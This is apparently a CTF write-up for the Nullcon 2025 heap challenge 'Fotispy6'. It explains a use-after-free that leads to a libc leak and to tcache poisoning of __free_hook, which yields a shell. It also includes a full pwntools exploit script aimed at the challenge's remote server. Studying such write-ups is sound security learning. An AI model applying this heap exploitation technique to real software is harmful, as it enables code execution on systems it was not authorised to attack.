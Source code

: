 +++
author = "Velobobo"
title = "NullConCTF 2025 - Fotispy6"
date = "2025-09-06"
description = ""
draft = false
slug = "nullcon-2025-chunkythreads"
ctfs = ["Nullcon-2025"]
tags = [
    "heap",
    "ctf",
]
categories = [
    "pwn"
]

+++

# Fotispy6 – Nullcon CTF 2025

## Overview 
This binary was a classic heap-based program where we could add multiple songs and comments, as well as view and delete them.
Protections enabled were: PIE, Canary, NX, and Full RELRO.
Initially, I spent quite some time trying to figure out the exploitation strategy. Then, I randomly checked the libc version and noticed it was 2.31 so there was no pointer mangling(safe linking) in tcache and __free_hook function was also present in this libc.

## Reversed Code

main
 {{< figure src="main.png" alt="main" width="500" >}}

add
 {{< figure src="add.png" alt="add" width="500" >}}

edit
 {{< figure src="edit.png" alt="edit" width="500" >}}

view
 {{< figure src="view.png" alt="view" width="500" >}}

delete
 {{< figure src="free.png" alt="free" width="500" >}}

## Exploitation Plan

As the code doesn’t remove the pointer from the list after freeing, there is a UAF vuln. I first leaked libc through an unsorted bin.

```python
addsong(b'a',1300) #0  
addsong(b'b',1300) #1  
delete(0)  
view(0)  
leak=u64(p.recvline()[:-1].ljust(8,b'\x00'))  
log.critical(f"leak : {leak:#x}")  
libcbase=leak-0x1ecbe0  
libc.address=libcbase
```

`b` is a guard chunk so that when the first chunk goes into the unsorted bin it doesn’t get consolidated with the wilderness. After freeing the first chunk, its fd pointer contains the address of the main arena head, which is a libc address. So i leaked this and calculated the libc base.

For `__free_hook` I used tcache poisoning by changing the fd of a tcache chunk to point to `__free_hook`. Since there’s no safe-linking, I could directly overwrite the fd without mangling.

```python
freehook=libc.symbols['__free_hook']  
system=libc.symbols['system']  
binsh=next(libc.search(b'/bin/sh'))  

addsong(b'c',8) #2  
addsong(b'd',8) #3  
delete(2)  
delete(3)  
edit(3,8,p64(freehook))  
addsong(b'e',8) #4  
addsong(p64(system),8) #5  
```

After getting the chunk , i wrote the address of `system` in `__free_hook` , so that whenever free is called it will call system with the same argument the free was called on. At last i just add another chunk and free it to execute the exploit.

```python
addsong(b'/bin/sh',20) #6  
delete(6)
```

## Full Exploit Script

```python
#!/usr/bin/env python3
from pwn import *

exe = ELF("./fotispy6_patched", checksec=False)
libc = ELF("./libc.so.6", checksec=False)
ld   = ELF("./ld-2.31.so", checksec=False)

context.binary = exe
#context.log_level = 'debug'

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("52.59.124.14", 5196)
    return r

def addsong(comment, size):
    p.sendlineafter(b'[~] Choice: ', b'2') 
    p.sendlineafter(b'[~] How long will the comment be: ', str(size).encode())
    p.sendlineafter(b'[~] Enter the comment: ', comment)

def edit(idx, newsize, comment):
    p.sendlineafter(b'[~] Choice: ', b'3') 
    p.sendlineafter(b'[~] Which song to you want to select: ', str(idx).encode())
    p.sendlineafter(b'[~] How long will the new comment be: ', str(newsize).encode())
    p.sendlineafter(b'[~] Enter the new comment: ', comment)

def view(idx):
    p.sendlineafter(b'[~] Choice: ', b'4')
    p.sendlineafter(b'[~] Which song to you want to select: ', str(idx).encode())
    p.recvuntil(b'[+] Here is your comment:\n')

def delete(idx):
    p.sendlineafter(b'[~] Choice: ', b'5')
    p.sendlineafter(b'[~] Which song to you want to select: ', str(idx).encode())

p = conn()

# Leak libc
addsong(b'a',1300) #0
addsong(b'b',1300) #1
delete(0)
view(0)
leak = u64(p.recvline()[:-1].ljust(8,b'\x00'))
log.critical(f"leak : {leak:#x}")
libcbase = leak - 0x1ecbe0
libc.address = libcbase
log.critical(f"libcbase : {libcbase:#x}")

# Ovewriting __free_hook
freehook = libc.symbols['__free_hook']
system   = libc.symbols['system']
binsh    = next(libc.search(b'/bin/sh'))
log.critical(f"freehook : {freehook:#x}")
log.critical(f"system : {system:#x}")
log.critical(f"binsh : {binsh:#x}")

# Tcache poisoning
addsong(b'c',8) #2
addsong(b'd',8) #3
delete(2)
delete(3)
edit(3, 8, p64(freehook))
addsong(b'e',8) #4
addsong(p64(system),8) #5

# Trigger exploit
addsong(b'/bin/sh',20) #6
delete(6)

p.interactive()

```

## Result

{{< figure src="flag.png" alt="flag" width="500" >}}
